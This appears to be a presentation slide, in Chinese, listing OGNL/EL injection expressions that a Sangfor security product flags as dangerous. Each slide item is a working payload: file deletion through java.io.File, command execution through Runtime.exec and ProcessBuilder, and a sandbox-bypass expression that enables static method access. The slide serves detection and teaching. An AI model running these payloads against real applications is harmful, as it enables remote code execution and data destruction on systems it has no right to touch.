

深信服检测危险的注入语句
Java.io包下的类
%{#a = new java.io.File("~/test.txt"),#a.delete()}
%{new java.io.DataInputStream().readLine()}
Java.lang.Runtime
%{@java.lang.Runtime@getRuntime().exec("ls-als")}
Java.lang.ProcessBuilder
${(new java.lang.ProcessBuilder('calc')).start()}
带有权限语句的payload
%{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    @sun.misc.Unsafe@getUnsafe()}